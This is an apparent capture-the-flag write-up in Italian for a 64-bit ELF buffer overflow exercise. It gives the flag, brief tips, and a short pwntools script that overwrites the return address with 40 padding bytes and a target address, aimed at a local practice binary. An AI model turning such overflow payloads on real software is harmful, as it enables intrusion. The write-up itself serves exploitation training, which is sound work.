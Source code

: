 # Flag
flag: ccit{hi_i_am_a_flag}

# Write-up
L'esercizio è similissimo a quello precedente
Nota bene:
- ELF64bit, di conseguenza usare p64(valore)
- elf.symbols stampa i symbols con indice <b>INTERO</b>, non <b>ESADECIMALE</b>
- Guardare il ``trace.txt`` per i calcoli eseguiti (si può usare sia dei calcolatori online che GDB stesso)
- Just to know: process("pathToFile").interactive() crea una sessione interattiva (in questo esercizio non serviva, stampa diretto la funzione)
```python
from pwn import *

elf = ELF("./hi")

print("This binary has many symbols:")
print(elf.symbols)

with process("./hi") as r:
    inp=b'A'*40+p64(0x400637) #Notare il p64
    r.sendline(inp)
```